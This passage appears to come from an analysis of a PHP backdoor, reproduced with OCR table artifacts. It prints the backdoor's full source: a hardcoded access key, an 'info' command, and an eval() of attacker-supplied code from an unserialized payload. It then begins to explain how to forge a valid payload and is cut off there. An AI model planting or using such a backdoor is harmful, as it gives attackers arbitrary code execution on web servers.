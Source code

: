 | \$payload = \@unserialize(\$payload);\                                |
| \                                                                     |
| /\*\                                                                  |
|  // Payload requires ID\                                              |
|  \$payload\[\'ak\'\] =\> \'d4a8745e-2599-49bc-b7e3-2b194ca49aef\',\   |
|  // Show info\                                                        |
|  \$payload\[\'a\'\] =\> \'i\',\                                       |
|  // Eval code\                                                        |
|  \$payload\[\'a\'\] =\> \'e\',\                                       |
|  \$payload\[\'d\'\] =\> \'echo \\\"Hi\\\";\'\                         |
| \*/\                                                                  |
| if (isset(\$payload\[\'ak\'\]) &&                                     |
| \'d4a8745e-2599-49bc-b7e3-2b194ca49aef\' == \$payload\[\'ak\'\]){\    |
|  // if \$payload\[\'a\'\] == \'i\' respond with php version and       |
| \"backdoor\" version, serialized\                                     |
|  if (\$payload\[\'a\'\] == \'i\'){\                                   |
|  \$info = Array(\                                                     |
|  \'pv\' =\> \@phpversion(),\                                          |
|  \'sv\' =\> \'1.0-1\',\                                               |
| );\                                                                   |
|  echo \@serialize(\$info);\                                           |
|  // if \$payload\[\'a\'\] == \'e\', then evaluate code in             |
| \$payload\[\'d\'\]\                                                   |
|  } elseif (\$payload\[\'a\'\] == \'e\'){\                             |
|  eval(\$payload\[\'d\'\]);\                                           |
|  }\                                                                   |
|  exit();\                                                             |
| }                                                                     |
+-----------------------------------------------------------------------+

So, to be able to generate a valid payload, something like this would
do:

